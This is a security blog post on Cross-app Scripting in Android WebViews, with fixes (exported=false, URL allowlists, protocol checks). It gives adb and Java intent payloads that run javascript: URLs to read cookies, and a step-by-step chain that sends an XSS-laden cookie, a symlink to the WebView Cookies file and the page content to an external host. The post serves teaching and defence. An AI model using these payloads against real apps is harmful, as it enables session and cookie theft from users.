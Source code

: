 ```yaml
---
layout: post
title: Cross-app Scripting in Android apps
date: 2021-05-10 20:45:00 +09:00
tags: tech security
---
```


If an Android app accepts [Intents](https://developer.android.com/reference/android/content/Intent?hl=en) to open a URL in a [WebView](https://developer.android.com/reference/android/webkit/WebView), then a malicious app installed on the same device might open a `javascript:alert(1)`-like URL, which will run the provided JavaScript in the context of the victim app's site (that is currently loaded in the WebView). This vulnerability is called [Cross-app Scripting](https://support.google.com/faqs/answer/9084685?hl=en-GB).

<!--break-->

## Background: Intents

On Android, intents are a way for an app to ask another app to do something. There are [explicit intents](https://developer.android.com/reference/android/content/Intent#intent-resolution) that specify the exact class to be run ("hey, open this place in Google Maps") or [implicit intents](https://developer.android.com/reference/android/content/Intent#intent-resolution) that only say what they want to get done and not by whom ("hey, take a photo with any app" or "open this URL in any browser"). If multiple apps offer to handle the implicit intent, Android will ask the user which app they want to use.

Intents are usually defined in the [Manifest](https://developer.android.com/guide/topics/manifest/manifest-intro), e.g.:

```
<intent-filter>
    <data android:scheme="http" />
    <data android:scheme="https" />
    <data android:host="example.com" />
    <action android:name="android.intent.action.VIEW" />
    <category android:name="android.intent.category.DEFAULT" />
    <category android:name="android.intent.category.BROWSABLE" />
</intent-filter>
```

One can also try to find them by looking for where they are invoked by searching for e.g. `"new Intent"` or `"import android.content.Intent;"`, e.g.:

```
final Intent switchToExternalIntent = new Intent(this, ExternalActivity.class)
    .putExtra("url", url)
    .putExtra("shareUrl", shareUrl)
    .putExtra("shareMessage", shareMessage)
startActivityForResult(switchToExternalIntent, RequestCodes.EXTERNAL_ACTIVITY_RESULT_CODE);
```

or

```
final Intent shareIntent = new Intent(Intent.ACTION_SEND);
shareIntent.setType("text/plain");
shareIntent.putExtra(Intent.EXTRA_TEXT, url);
context.startActivity(shareIntent);
```

## Calling an intent

With [adb](https://developer.android.com/studio/command-line/adb) one can call Intents directly, e.g.:

```
adb shell am start -n com.example.myapp/com.example.myapp.MainActivity -a "android.intent.action.VIEW" -d "'javascript:alert(document.cookie)'"
```

The parameters are:

* `com.example.myapp` - is the [application id](https://developer.android.com/studio/build/application-id) of the app
* `com.example.myapp.MainActivity` - the package and class name to be called (e.g. the activity's code might look like: `"package com.example.myapp; .... public class MainActivity"`)
* `android.intent.action.VIEW` is the action defined in the manifest like `<action android:name="android.intent.action.VIEW" />` (sometimes it works without specifying this)
* `-d` sets the data

`adb` is ideal for testing, however let's not forget that a real-life malicious app would send the same Intent from Java like this:

```
Intent i = new Intent();
i.setAction("android.intent.action.VIEW");
i.setClassName("com.example.myapp","com.example.myapp.MainActivity");
i.setData(Uri.parse("javascript:alert(document.cookie)"));
startActivity(i);
```

### Extras

In addition to the main data of an Intent, extra parameters can be passed either via the `putExtra()` Java call or with the `--eX` flags of `abd` depending on the type of the data:

* `--es` for string
* `--eu` for URI
* `--ez` for boolean
* `--ei` for integer
* `--el` for long
* `--ef` for float

More options: [https://developer.android.com/studio/command-line/adb#IntentSpec](https://developer.android.com/studio/command-line/adb#IntentSpec)

Example:

```
adb shell am start -n "com.example.myapp/com.example.myapp.MainActivity" --es url "javascript:alert\(document.cookie\)" --es "app.subject_id" "1234" --eu "android.intent.extra.REFERRER" "android-app:\/\/com.example.myapp"
```

Same in Java:

```
Intent i = new Intent();
i.setAction("android.intent.action.VIEW");
i.setClassName("com.example.myapp","com.example.myapp.MainActivity");
i.putExtra(Intent.EXTRA_REFERRER, Uri.parse("android-app://com.example.myapp"));
i.putExtra("app.subject_id", 1234);
i.putExtra("url","javascript:alert(document.cookie)");
startActivity(i);
```

## Referer-spoofing

Intents can contain an [EXTRA_REFERRER](https://developer.android.com/reference/android/content/Intent#EXTRA_REFERRER) field, and it seems reasonable to check that to ensure only trusted apps can send requests to our app, however this parameter can be easily spoofed by a malicious app (as shown above).

## Impact: I have all your cookies

The impact of [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) is generally reduced by the [`httpOnly` cookie flag](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies), however there is a clever trick to bypass this and get all cookies from a WebView. (This is mentioned in [Google's description](https://support.google.com/faqs/answer/9084685?hl=en-GB) too.)

A WebView uses it's own set of cookies that are stored in the `/data/data/package_name/app_webview/Cookies` SQLite file. As this is in the [app's own folder, it is only accessible by the app itself](https://source.android.com/security/app-sandbox).

The attack works like this:

1. The malicious app opens a malicios site within the victim app's WebView
2. This site creates a cookie for it's own domain and sets the cookie value to an XSS payload, e.g. `<img src=x onerror='this.src = "https://example.com/?" + encodeURIComponent(document.getElementsByTagName("html")[0].innerHTML)'>` (this takes the entire page and sends it to an external site)
3. This cookie gets stored in `/data/data/package_name/app_webview/Cookies` along with all the other cookies (this might take a few seconds, so the malicious app might need to wait up to 20-30 seconds)
4. The malicious app creates a symlink to this file, e.g. `ln -s /data/data/package_name/app_webview/Cookies /tmp/symlink.html` (even though the malicous app can't access the cookies file directly, it can make the symlink)
5. The malicious app opens `file:///tmp/symlink.html` in the WebView. Since the Cookies file is owned by the app, it can access it.
6. Since the file extension is html, the WebView will look for any HTML code and interpret it as such. The file is an SQLite database file, so it has a lot of non-ASCII bytes, however the cookie values appear in clear text, thus the HTML code injected in step 2 runs.
7. The injected JavaScript takes the entire content of the file and sends it to an external server. This contains all cookies from the WebView.

The mobile security concept is very different from the desktop: on desktop if a user runs a malicious app, that's (almost) game over (e.g. they can usually start a keylogger, steal the browser's cookie jars etc.). On mobile however it is expected that apps and user data is protected even against a malicious app (e.g. see the fine-tuned permission system). To exploit an intent-based issue, the attacker needs to convince the user to install the attacker's app on their phone, which does reduce the risk, however because of the expectation of apps being separated, we generally still need to consider (and fix) these issues.

## Solution 1: disable calling intents from other apps

This is the [first recommendation by Google](https://support.google.com/faqs/answer/9084685?hl=en-GB) too:

> Find any [Activities](https://developer.android.com/reference/android/app/Activity) with affected [WebViews](https://developer.android.com/reference/android/webkit/WebView). If these [Activities](https://developer.android.com/reference/android/app/Activity) do not need to take [Intents](https://developer.android.com/reference/android/content/Intent) from other apps you can set [android:exported=false](https://developer.android.com/guide/topics/manifest/activity-element#exported) for the [Activities](https://developer.android.com/reference/android/app/Activity) in your [Manifest](https://developer.android.com/guide/topics/manifest/manifest-intro). This ensures that malicious apps cannot send harmful inputs to any [WebViews](https://developer.android.com/reference/android/webkit/WebView) in these activities.

However sometimes this is not an option, e.g. some apps send push notifications to the user, and uppon clicking on those, they send an Intent to the app asking it to open a specific page in the app's WebView showing e.g. a promotion.

## Solution 2: only open trusted links

Have an allowlist of domains and check that the URL from the Intent starts with the entire domain, e.g. `https://example.com/`. The trailing `/` is important, otherwise `https://example.com.attacker.com` would be accepted.

### Accepting any subdomains

If all subdomains of a trusted domain need to be accepted, it's tempting to parse the URL and then ensure that the hostname ends with `.example.com` (leading `.` is important, otherwise `attackerexample.com` would be accepted). However make sure to check the protocol too, otherwise this might get accepted: `javascript://mysite.example.com/%0aalert(1)`. But more on this trick in an other post.
